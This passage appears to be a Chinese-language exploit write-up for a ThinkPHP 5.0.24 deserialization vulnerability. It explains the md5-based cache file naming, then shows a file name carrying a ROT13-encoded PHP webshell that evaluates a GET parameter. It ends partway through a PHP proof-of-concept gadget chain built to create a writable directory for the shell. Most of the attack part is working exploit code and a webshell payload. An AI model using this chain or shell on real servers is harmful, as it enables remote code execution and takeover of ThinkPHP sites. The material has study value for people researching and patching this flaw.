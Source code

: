 生成文件名规则：

    md5('tag_'.md5($this->tag))
    即:
    md5('tag_c4ca4238a0b923820dcc509a6f75849b')
    =>3b58a9545013e88c7186db11bb158c44
    =>
    <?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
    最终文件名：
    <?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php

在漏洞利用时需注意目录读写权限，可先控制options\['path'\] =
'./demo/'，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755**
权限的目录（这里利用的是 **think\\cache\\driver\\File:getCacheKey()**
中的 **mkdir** 函数），然后再往这个目录写文件。

![](./.resource/Thinkphp5.0.24反序列化漏洞/media/rId27.gif)

### poc 创建demo目录

    <?php
    namespace think\process\pipes;
    use think\model\Pivot;
    class Pipes{

    }

    class Windows extends Pipes{
        private $files = [];

        function __construct(){
            $this->files = [new Pivot()];
        }
    }

    namespace think\model;#Relation
    use think\db\Query;
    abstract class Relation{
        protected $selfRelation;
        protected $query;
        function __construct(){
            $this->selfRelation = false;
            $this->query = new Query();#class Query
        }
    }

    namespace think\model\relation;#OneToOne HasOne
    use think\model\Relation;
    abstract class OneToOne extends Relation{
        function __construct(){
            parent::__construct();
        }
